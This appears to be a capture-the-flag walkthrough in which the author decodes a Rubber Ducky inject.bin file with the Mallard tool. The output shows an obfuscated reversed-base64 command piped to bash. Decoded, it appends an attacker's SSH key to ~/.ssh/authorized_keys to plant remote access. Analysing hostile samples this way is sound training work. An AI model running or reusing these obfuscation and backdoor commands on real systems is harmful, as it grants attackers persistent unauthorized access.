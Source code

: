 (ch5)=
Rubber Ducky
===
*Evaluate the USB data in /mnt/USBDEVICE/*

First of all, let's see what does `/mnt/USBDEVICE` contain.

```Shell
$ ls -l /mnt/USBDEVICE
total 4
-rw-r--r-- 1 root root 2090 Now 30 22:14 inject.bin
```

Oh, look. There is a file called `inject.bin`. Given the context and the special name, that is probably a `Ducky` script. <br>
We could use [**Mallard**](https://github.com/dagonis/Mallard) to decode and view it's contents.
Fortunately, we already have the Mallard script in our home.

```Shell
$ ls -l
total 12
-rwxr-xr-x root root 8802 Nov 30 22:14 mallard.py*
```

Let's use it.

```Shell
$ python mallard.py --file /mnt/USBDEVICE/inject.bin
[...]
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
[...]
```
Mhh.. Seems like someone is trying to execute a `base64` encoded reversed (`rev`) command. We can decode it simply excuting `rev` and `base64 -d` (decode) with the string. <br>
We can copy the entire command from `echo`, but <ins>**we must remove the final instruction, `bash`, or else it will execute!**</ibns>

```Shell
$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys

```

This adds an `SSH` key to the `authorized_keys` file. The troll's username is **ickymcgoop**.